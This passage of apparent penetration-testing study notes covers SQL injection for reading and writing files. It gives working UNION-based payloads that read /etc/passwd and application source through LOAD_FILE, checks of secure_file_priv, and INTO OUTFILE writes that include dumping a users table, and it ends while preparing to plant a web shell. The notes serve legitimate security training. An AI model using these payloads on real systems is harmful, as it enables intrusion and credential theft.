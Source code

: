 ```sql
SELECT LOAD_FILE('/etc/passwd');
```

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- 
```

To see the Code press `[Ctrl + U]`.

#### Writing Files

Requirements:
  1. User with `FILE` privilege enabled
  2. MySQL global `secure_file_priv` variable not enabled
  3. Write access to the location we want to write to on the back-end server

##### secure_file_priv

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```

##### SELECT INTO OUTFILE

Write output from a `SELECT` query into a file.

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Write any string into a file.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

##### Writing Files through SQL Injection

If we want to write a web shell we need to know the base web directory. One way to find it out is the `load_file` function which shows us Apache's configuration, this can be found at `/etc/apache2/apache2.conf`, Nginx's at `/etc/nginx/nginx.conf` and IIS at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`. Alternatively, a fuzzing scan would still be possible with [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) and [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt).

